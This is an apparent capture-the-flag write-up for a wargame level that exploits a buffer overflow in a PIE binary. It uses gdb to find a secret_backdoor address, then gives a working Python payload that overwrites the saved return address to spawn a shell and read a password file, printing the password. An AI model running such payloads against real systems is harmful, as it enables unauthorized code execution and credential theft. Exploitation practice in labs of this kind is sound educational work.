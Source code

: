 # Write up

Last one now.

Here we have NX enabled, Partial RELRO and a PIE executable.

While disassembling the program, we found an overflow, an unset length variable and a secret_backdoor function.
Since we have a position independant executable, we have to search for the secret_backdoor address first :
```
(gdb) p secret_backdoor
$1 = {<text variable, no debug info>} 0x88c <secret_backdoor>			<= Base address, succ
(gdb) break main
Breakpoint 1 at 0xaac
(gdb) run
(gdb) p secret_backdoor
$2 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>	<= Runtime stack address, purfect
```

We have to overwrite the saved rip from the message overflow, keeping in mind that we need a size over 208 to let us put the backdoor.
We also need to force flush our inputs using "\n" to not be forced to fill all the buffers completely.
So we will try to override the saved rip at offset 200 (192 + 8 padding) using the following payload :
```
(python -c "print 'A' * 40 + '\xd0' + '\n' + 'B' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00' + '\n' + '/bin/sh'"; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
ls
ls: cannot open directory .: Permission denied
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

Congratulations !
